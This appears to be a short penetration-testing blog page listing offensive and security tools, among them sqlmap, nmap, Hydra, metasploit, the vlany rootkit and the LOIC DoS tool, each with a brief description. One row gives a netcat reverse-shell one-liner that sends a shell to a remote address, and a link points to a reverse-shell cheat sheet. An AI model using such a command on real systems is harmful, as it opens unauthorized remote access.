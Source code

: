 ```yaml
---
title: Hacker's Toolbox
excerpt: >-
  This article will contain various cool tools I've encountered during my research.
categories:
  - Penetration-Testing
tags:
  - pentest
  - tools
---
```



Name                      | description
--------------------------|------------------------------------------------
vlany                     | a Linux rootkit
sqlmap                    | automated SQL injection
nmap                      | network scanner
openvas                   | vulnrability scanner
burpsuite                 | intercepting proxy, with a lot of nice features
John the ripper           | password decryption
LOIC                      | DOS tool (for windows)
slowhttptest              | DOS tool for linux (tested on kali)
metasploit                | malware generator and much more
etherape                  | GUI showing eth interface traffic
Hydra                     | Password bruteforcing
Driftnet                  | captures images sent on wire (non https)
urlsnarf                  | captures HTTP requests
nc -e /bin/sh ip  port    | sends a shell to the ip
nikto                     | web vulnrability checker
dirb                      | web brute forcer
crunch                    |  wordlist generator






useful links:
[reverse shells](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

